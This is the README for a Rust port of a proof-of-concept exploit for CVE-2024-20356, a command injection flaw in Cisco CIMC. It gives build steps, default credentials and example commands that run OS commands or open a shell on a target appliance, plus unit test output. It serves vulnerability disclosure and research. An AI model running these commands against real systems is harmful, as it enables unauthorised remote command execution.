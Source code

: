 # CVE-2024-20356
This is a proof of concept for CVE-2024-20356, a Command Injection vulnerability in Cisco's CIMC.

Written by Aaron and Oxidised by SherllyNeo

Full technical details can be found at [https://labs.nettitude.com/blog/cve-2024-20356-jailbreaking-a-cisco-appliance-to-run-doom](https://labs.nettitude.com/blog/cve-2024-20356-jailbreaking-a-cisco-appliance-to-run-doom)

## Install
```bash
cargo build --release && cp ./target/release/CVE_2024_20356 ~/.local/bin/
```

## Usage
```bash
Usage: CVE_2024_20356 [OPTIONS] --host <HOSTNAME>

Options:
  -t, --host <HOSTNAME>      Target hostname or IP address (format 10.0.0.1 or 10.0.0.2:1337)
  -u, --username <USERNAME>  Username [default: admin]
  -p, --password <PASSWORD>  Password [default: cisco]
  -a, --action <ACTION>      Action to perform [default: test] [possible values: test, cmd, shell, dance]
  -c, --cmd <CMD>            OS command to run [default: None]
  -v, --verbose              Displays more information about cimc
  -h, --help                 Print help
  -V, --version              Print version
```

Example commands:
```bash
CVE_2024_20356 --host 192.168.x.x -u admin -p your_password -v
CVE_2024_20356 --host 192.168.x.x -u admin -p your_password -c 'id'
CVE_2024_20356 --host 192.168.x.x -u admin -p your_password -a shell
CVE_2024_20356 --host 192.168.x.x -u admin -p your_password -a dance
```

Use the `--help` argument for full usage instructions.

## Disclaimer
This proof-of-concept is for demonstration purposes and should not be used for illegal activities. LRQA Nettitude are not responsible for any damage caused by the use or misuse of this code.
Don't be evil

## Tests
I wrote this without access to the server based on the [original code base](https://github.com/nettitude/CVE-2024-20356/blob/main/CVE-2024-20356.py).

Due to this I wrote extensive unit tests to ensure that the encryption functions match up with those found in the original.
That the login method works using a mock server.
That the arguement parsing works for IP addresses.

to run these tests, use cargo --test
```bash
cargo test 
   Compiling CVE_2024_20356 v0.1.0 
    Finished `test` profile [unoptimized + debuginfo] target(s) in 2.27s 
     Running unittests src/main.rs (target/debug/deps/CVE_2024_20356-6d8ec478cd93405b) 
running 8 tests 
test libs::encryption::tests::pad_test ... ok 
test libs::encryption::tests::key_fnv32_test ... ok 
test libs::encryption::tests::aes_encrypt_test ... ok 
test libs::encryption::tests::derive_key_and_iv_test ... ok 
test libs::encryption::tests::hash_fnv32_test ... ok 
test libs::encryption::tests::encrypt_test ... ok 
test libs::actions::tests::login_test ... ok 
test libs::arguments::validate_hostname_test ... ok 
test result: ok. 8 passed; 0 failed; 0 ignored; 0 measured; 0 filtered out; finished in 0.02s 
```


## Project Structure 
I put this here as I avoided using mod.rs and to show how main is a thin wrapper around lib.

This is to allow for integration tests in the future.

```bash
src 
├── lib.rs 
├── libs 
│   ├── actions.rs 
│   ├── arguments.rs 
│   └── encryption.rs 
└── main.rs 
```


